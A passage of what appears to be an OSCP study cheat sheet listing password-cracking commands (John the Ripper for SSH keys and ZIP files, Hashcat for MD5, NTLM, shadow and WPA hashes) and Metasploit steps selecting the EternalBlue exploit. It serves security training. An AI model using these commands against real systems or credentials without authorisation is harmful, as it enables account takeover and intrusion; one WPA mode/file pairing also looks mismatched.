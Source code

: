 #### SSH Key Cracking
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

#### ZIP File Cracking
```bash
zip2john file.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
```

### Hashcat

#### Hash Cracking
```bash
# MD5
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# SHA1
hashcat -m 100 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Windows NTLM
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# Linux /etc/shadow (SHA512)
hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

# WPA/WPA2
hashcat -m 16800 -a 0 capture.hccapx /usr/share/wordlists/rockyou.txt
```

#### Rule-Based Attack
```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### Brute Force Attack
```bash
hashcat -m 0 -a 3 hashes.txt ?a?a?a?a?a?a
```

#### Combination Attack
```bash
hashcat -m 0 -a 1 hashes.txt wordlist1.txt wordlist2.txt
```

## Metasploit Framework (Limited Usage in OSCP)

### Basic Usage
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows ms17-010

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Set options
show options
set RHOSTS 10.10.10.10
set LHOST 10.10.10.11
```